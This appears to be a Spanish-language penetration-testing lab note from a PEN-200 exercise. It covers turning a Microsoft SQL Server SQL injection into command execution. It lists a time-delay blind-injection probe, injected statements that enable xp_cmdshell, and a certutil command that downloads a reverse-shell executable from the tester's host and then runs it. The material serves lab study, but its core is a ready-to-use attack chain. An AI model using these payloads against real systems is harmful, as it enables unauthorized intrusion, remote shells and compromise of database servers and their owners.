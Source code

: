 
## DESCRIPTION

Detectamos una inyección SQL y comprobamos si es posible ejecutar comandos.

En el caso de qu sea una BlindSQL podemos comprobarlo con un retraso de tiempo: `' WAITFOR DELAY '0:0:10'--`

#### Mas información
* https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server

## EXPLOITATION

### OPTION 1: EXECUTING COMMAND WITH XP_CMDEXE

**!!NOTA IMPORTANTE!!** 

ES MUY IMPORANTE HABILITAR ANTE EL xp_cmdshell PARA QUE PODAMOS EJECUTAR COMANDOS

```
' EXEC sp_configure 'show advanced options',1 -- -
' RECONFIGURE -- -
' EXEC sp_configure 'xp_cmdshell',1 -- -
' RECONFIGURE -- -
```

1. Levantamos un servidor en nuestro equipo y comprobamos que ser realiza la petición

```
' exec xp_cmdshell 'certutil -urlcache -f http://192.168.119.122:8000/shell.exe C://programdata/shell.exe' -- 
```

![[Pasted image 20230401203637.png]]
Creamos la reverse shell y la descargamos.

**!!NOTA IMPORTANTE!!** 
Tiene que ser en un directorio donde tengamos permisos por ejemplo PROGRAMDATA

2. Nos ponemos a la escucha en nuestra maquina

3. La ejecutamos directamente:

```
' exec xp_cmdshell 'C://programdata/shell.exe' --  
```



## MACHINES

* Laboratorios PEN-200: Medtech (192.168.122.121)
